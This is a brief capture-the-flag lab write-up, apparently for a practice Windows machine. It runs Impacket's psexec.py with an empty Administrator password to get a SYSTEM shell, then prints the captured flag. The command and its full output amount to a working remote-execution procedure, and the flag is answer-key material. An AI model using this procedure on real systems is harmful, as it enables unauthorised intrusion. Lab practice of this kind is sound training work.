 # Getting access using PSEXEC

Location

`/usr/share/doc/python3-impacket/examples/psexec.py`

Command:

`python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator:""@10.129.51.254`

```
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.51.254.....
[*] Found writable share ADMIN$
[*] Uploading file hnDAUzED.exe
[*] Opening SVCManager on 10.129.51.254.....
[*] Creating service QdNc on 10.129.51.254.....
[*] Starting service QdNc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

We then locate the flag

```
 Directory of C:\Users\Administrator\Desktop

04/22/2021  12:16 AM    <DIR>          .
04/22/2021  12:16 AM    <DIR>          ..
04/23/2021  02:39 AM                32 flag.txt
               1 File(s)             32 bytes
               2 Dir(s)   4,745,420,800 bytes free

C:\Users\Administrator\Desktop> type flag.txt
f751c19eda8f61ce81827e6930a1f40c
```
